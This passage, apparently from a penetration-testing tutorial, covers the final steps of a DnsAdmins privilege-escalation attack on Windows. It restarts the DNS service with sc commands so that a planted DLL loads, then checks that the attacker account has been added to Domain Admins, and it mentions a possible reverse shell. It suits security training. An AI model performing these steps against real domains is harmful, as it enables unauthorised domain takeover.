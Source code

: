 ### Restarting the DNS Service

After confirming our permissions, we can issue the below commands to stop and start the service.

```
C:\> sc stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
```

The DNS service will attempt to start and run the custom DLL, but if we check the status it will show that it failed to start correctly. To manually start the DNS service we can use:

```cmd-session
C:\> sc start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 6960
        FLAGS              :
```

### Confirming a Successful Attack

If the attack works, our account will be added to the Domain Admins group or receive a reverse shell - if the custom DLL was made to create a connection back.

```cmd-session
C:\> net group "Domain Admins" /dom

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
```

### Cleaning Up
